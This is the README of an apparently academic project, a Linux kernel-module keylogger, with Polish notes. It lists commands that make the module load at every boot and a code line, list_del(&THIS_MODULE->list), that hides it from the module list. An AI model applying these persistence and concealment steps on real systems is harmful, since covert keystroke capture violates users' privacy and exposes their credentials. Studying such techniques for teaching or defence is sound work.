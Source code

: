 # lkmKeylogger
Academic project - keylogger as a linux kernel module

-----
Włączanie modułu przy starcie systemu (załadowanie modułu)
-----

https://stackoverflow.com/questions/4356224/how-to-load-a-custom-module-at-the-boot-time-in-ubuntu
http://www.ouah.org/LKM_HACKING.html#I.6.

do pliku Makefile dodałem:

#skopiowanie modułu do folderu ze sterownikami
sudo cp mymodule.ko /lib/modules/$(shell uname -r)/kernel/drivers/

#dodanie modułu do pliku automatycznie uruchamiajacego module-at-the-boot-time-in-ubuntu
echo 'mymodule' | sudo tee -a /etc/modules

#włączenie modułu
sudo insmod keylogger.ko

#Update the list of module dependencies.
sudo depmod

do pliku keylogger.c dodałem:

#Ukrywanie modulu na liscie
list_del(&THIS_MODULE->list);


-----
Stworznie bufora zwalnianego klawiszem <ENTER>
-----

working!
